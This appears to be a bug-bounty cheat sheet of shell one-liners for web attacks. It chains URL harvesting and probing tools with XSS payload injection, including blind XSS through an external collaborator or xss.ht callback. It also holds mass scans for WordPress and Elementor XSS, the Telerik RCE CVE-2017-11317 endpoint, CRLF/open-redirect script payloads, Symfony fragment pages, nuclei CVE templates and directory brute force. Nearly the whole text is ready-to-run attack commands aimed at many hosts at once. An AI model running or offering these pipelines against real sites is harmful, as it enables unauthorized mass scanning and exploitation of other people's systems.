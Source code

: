 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

## paramReflect
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## gau+uro+httpx(My Xss)
     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt

     cat domains.txt | uro --filter hasparams | qsreplace '"><h1>Akira</h1>' > domain4httpx.txt

     cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt

    #Note: have a server ? use:
    cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
   
   ### oneLine:
    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
## subdomain enumeration
    amass enum -active -d <DOMAIN> -dir amass_active/<DOMAIN>/
    amass enum -passive -d <DOMAIN> -dir amass_passive/<DOMAIN>/
    assetfinder <DOMAIN> | tee ./subdomains/assetfinder.txt

## web crawlling
    for i in $(cat hosts-urls.txt); do katana -u $i >> ./katana_rzlts.txt; done
    cat hosts-urls.txt | hakrawler -timeout 5 -subs | tee ./hakrawler_rzlts.txt
    cat hosts-live.txt | gau --threads 15 | tee ./gau_rzlts.txt
    cat hosts-live.txt | waybackurls | tee ./wburls_rzlts.txt

## filtering
        cat katana_rzlts.txt hakrawler_rzlts.txt gau_rzlts.txt wburls_rzlts.txt | sort -u > uniq.txt; cat uniq.txt | grep "<DOMAIN>" | grep "\?" > 4xss.txt
## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## Telerik RCE(CVE-2017-11317)
    cat subs.txt | /workspace/go/bin/httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt

## Elementor Xss
    cat subs.txt | httpx -path "#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8aDE+YWtpcmE8L2gxPiJ9" -ms <h1>akira</h1> -o elementorXss.txt -t 200

    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -ms "Stable tag: 3.4" -o elementor.txt -t 200

## Symphonic
    cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt


## Nuclie
    cat domains.txt | nuclei -nt -es info -ept ssl -o data.txt
    nuclei -l domains.txt -nt -o data.txt
    nuclei -l domains.txt -t cves/2023 -o data.txt
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    
# dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

